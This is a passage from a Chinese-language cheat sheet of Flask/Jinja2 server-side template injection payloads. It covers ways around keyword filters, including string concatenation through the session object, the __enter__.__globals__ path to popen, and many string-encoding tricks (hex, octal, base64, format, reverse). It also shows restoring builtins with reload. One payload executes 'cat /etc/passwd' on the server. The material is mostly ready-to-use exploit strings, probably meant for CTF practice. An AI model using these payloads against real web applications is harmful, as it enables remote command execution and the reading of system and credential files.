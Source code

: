 - getlist，使用 `.getlist()` 方法获得一个列表，这个列表的参数可以在后面传递

```python
{%print (request.args.getlist(request.args.l)|join)%}&l=a&a=_&a=_&a=class&a=_&a=_
```

### 对象层面禁用
- set {}=None，只能设置该对象为 None，通过其他引用同样可以找到该对象

```python
{{% set config=None%}} -{{url_for.__globals__.current_app.config}}
```

- del

```python
del __builtins__.__dict__['__import__']
```

- 通过reload进行重载，从而恢复内建函数

```python
reload(__builtins__)
```

### 过滤config、request以及class
- 在官方文档中有一个 session 对象，session 是一个 dict 对象，因此可以通过键的方法访问相应的类，由于键是一个字符串，因此可以通过字符串拼接绕过，payload：`{{ session['__cla'+'ss__'] }}` 即可绕过过滤访问到类，进而访问基类、执行命令等

### 过滤config、request、class、__init__、file、__dict__、__builtines__、__import__、getattr以及os
- Python3中有一个 `__enter__` 方法，也有 `__globals__` 方法可用，而且与 `__init__` 一模一样

```python
__init__ (allocation of the class)
__enter__ (enter context)
__exit__ (leaving context)

{{ session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('cat /etc/passwd').read() }}
```

## trick
### Python字符的几种表示方式
```python
16进制 \x41

8进制 \101

unicode \u0074

base64 'X19jbGFzc19f'.decode('base64') python3

join "fla".join("/g")

slice "glaf"[::-1]

lower/upper ["__CLASS__"|lower

format "%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)

replace "__claee__"|replace("ee","ss")

reverse "__ssalc__"|reverse
```
